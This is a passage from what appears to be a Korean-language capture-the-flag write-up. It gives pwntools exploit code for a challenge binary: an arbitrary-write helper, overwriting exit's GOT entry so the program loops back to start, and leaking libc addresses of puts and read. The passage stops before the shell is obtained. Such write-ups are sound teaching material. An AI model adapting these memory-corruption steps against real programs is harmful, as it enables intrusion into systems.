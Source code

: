 
```python
def aaw(address, data):
    p.sendlineafter(b'=> ', b'4100')
    sleep(0.1)
    p.sendline(str(address).encode())
    p.sendline(str(data).encode())

aaw(exit_got, start)
exit()
set_name(b'B')
```

libc 베이스 leak도 해야 되고 GOT도 덮어써야 되고 쉘도 따야 되기 때문에 `aaw()`가 여러 번 필요하다  
한 번으로는 원샷이 안 된다  

때문에 바이너리가 종료될 때 실행되는 `exit()` 함수의 GOT를 start 주소로 덮어쓴다  
그러면 바이너리가 종료되지 않고 다시 처음부터 실행하게 되면서 `setter`가 0으로 설정되어 `aaw()`를 한 번 더 사용할 수 있다  

`set_name()`은 사실 필요 없는데 페이로드 짤 때 구분하려고 해놓은 거다  
<br>

---

![Image](/assets/img/250929/start.png)

start 주소는 text 영역에서 확인할 수 있다  
<br>

---

```python
# setvbuf_got -> puts_plt
aaw(setvbuf_got, puts_plt)
exit()
set_name(b'C')

# stderr -> puts_got
aaw(stderr, puts_got)
exit()
p.recvuntil(b'EXIT..\n')
p.recvn(5+5)
puts = u64(p.recv(6).ljust(8, b'\x00'))
set_name(b'D')

# stderr -> read_got
aaw(stderr, read_got)
exit()
p.recvuntil(b'EXIT..\n')
p.recvn(5+5)
read = u64(p.recv(6).ljust(8, b'\x00'))
```